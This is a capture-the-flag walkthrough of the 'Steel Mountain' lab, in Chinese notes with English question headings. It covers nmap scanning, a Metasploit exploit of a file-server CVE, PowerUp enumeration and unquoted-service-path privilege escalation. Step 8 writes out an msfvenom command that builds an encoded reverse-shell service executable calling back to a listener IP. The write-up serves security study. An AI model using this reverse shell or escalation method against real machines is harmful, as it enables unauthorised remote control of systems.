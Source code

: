 # Steel Mountain

### 1.Who is the employee of the month?
访问IP域名，浏览器工具查看图片名<br>
[Steel Mountain 1](./iamges/SteelMountain1.png)

### 2.Scan the machine with nmap. What is the other port running a web server on?
nmap扫描得到<br>
[Steel Mountain 2](./iamges/SteelMountain2.png)

### 3.Take a look at the other web server. What file server is running?
nmap扫描得到<br>
[Steel Mountain 3](./iamges/SteelMountain2.png)
[Steel Mountain 4](./iamges/SteelMountain3.png)

### 4.What is the CVE number to exploit this file server?
根据扫描到的服务在www.exploit-db.com中搜索<br>
[Steel Mountain 5](./iamges/SteelMountain4.png)

### 5.Use Metasploit to get an initial shell. What is the user flag?
进入msfconsole，使用search命令搜索CVE编号，use进去后设置目标IP和端口，run启动攻击<br>
[Steel Mountain 6](./iamges/SteelMountain5.png)

### 6.we can further enumerate the machine and escalate our privileges to root!
使用PowerUp.ps1脚本枚举提权向量，注意load加载powershell扩展<br>
[Steel Mountain 7](./iamges/SteelMountain6.png)

### 7.Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
[Steel Mountain 8](./iamges/SteelMountain6.png)

### 8.What is the root flag?
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.156.111 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
生成反弹shell，上传到靶机，sc关闭原服务，然后copy替换服务程序。nc设置一个侦听器，然后重新启动服务，即可获取root权限<br>
[Steel Mountain 9](./iamges/SteelMountain7.png)<br>
[Steel Mountain 10](./iamges/SteelMountain8.png)